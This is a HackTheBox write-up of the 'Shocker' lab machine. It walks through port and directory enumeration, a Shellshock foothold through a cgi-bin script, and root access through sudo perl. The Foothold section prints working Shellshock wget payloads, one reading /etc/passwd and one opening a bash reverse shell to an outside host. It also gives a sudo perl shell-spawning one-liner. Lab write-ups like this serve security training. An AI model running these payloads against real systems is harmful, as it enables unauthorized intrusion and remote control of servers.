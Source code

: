 ```yaml
---
cover: https://photos.squarezero.dev/file/abir-images/Shocker/logo.png
date: 2023-02-04 09:45:47+07:00
modified: 2023-02-04 09:45:47+07:00
categories: HackTheBox
machine_author:
  link: https://app.hackthebox.com/users/2984
  name: mrb3n
tags: [Shellshock, Shocker, Hackthebox, Writeup]
title: Shocker - HackTheBox
---
```


![](https://photos.squarezero.dev/file/abir-images/htbasset/banner.png)



Shocker, while fairly simple overall, demonstrates the severity of the renowned Shellshock
exploit, which affected millions of public-facing servers.

### Difficulty:

`Easy`

# Enumeration

At first, I did a Nmap scan for open ports and services.

`nmap -sC -sV -p- 10.10.1.235 -oG shocker`

![](https://photos.squarezero.dev/file/abir-images/Shocker/1.png)

|Ports|Service
|80| Apache httpd 2.4.18 ((Ubuntu))
|2222| OpenSSH 7.2p2 Ubuntu 4ubuntu2.2

I visit the website But there is nothing interesting.

![](https://photos.squarezero.dev/file/abir-images/Shocker/2.png)

I start enumerating websites using [FFUF]()

`ffuf -w /usr/share/dirb/wordlists/small.txt:FUZZ -u "http://10.129.1.235/FUZZ" -ic`

![](https://photos.squarezero.dev/file/abir-images/Shocker/1.1.png)

I found [cgi-bin](). Next I did directory enumaration using common extention.

`ffuf -w /usr/share/dirb/wordlists/small.txt:FUZZ -u "http://10.129.1.235/cgi-bin/FUZZ" -e .sh,.php,.html`

![](https://photos.squarezero.dev/file/abir-images/Shocker/2.png)

I found [user.sh](). 

![](https://photos.squarezero.dev/file/abir-images/Shocker/3.png)

After opening the file I saw the file is executing in the webserver.

![](https://photos.squarezero.dev/file/abir-images/Shocker/03.png)

# Foothold

After looking for sometime I figureout this is a [shellshock]() vulnerability. 

I found the following artical useful. [Exploit](https://security.stackexchange.com/questions/68122/what-is-a-specific-example-of-how-the-shellshock-bash-bug-could-be-exploited)

Lets see if we can read `/etc/passwd`.

`wget -U "() { test;};echo \"Content-type: text/plain\"; echo; echo; /bin/cat /etc/passwd" http://10.10.1.235/cgi-bin/user.sh`

![](https://photos.squarezero.dev/file/abir-images/Shocker/4.png)

After opening the file we can see the commands are being executed. 
![](https://photos.squarezero.dev/file/abir-images/Shocker/5.png)

So, I decided to use a bash reverseshell. And after execution I got a connection back.


`wget -U "() { test;};echo \"Content-type: text/plain\"; echo; echo; /bin/bash -i >& /dev/tcp/10.10.14.37/9000 0>&1" http://10.129.1.235/cgi-bin/user.sh`

![](https://photos.squarezero.dev/file/abir-images/Shocker/6.png)

![](https://photos.squarezero.dev/file/abir-images/Shocker/7.png)

# Privilege Escalation

I check what I can run as sudo. 

![](https://photos.squarezero.dev/file/abir-images/Shocker/8.png)

I can run [perl](). I checked [GTFOBins](https://gtfobins.github.io/) and used following to get root access.



`sudo perl -e 'exec "/bin/bash";'`

![](https://photos.squarezero.dev/file/abir-images/Shocker/9.png)

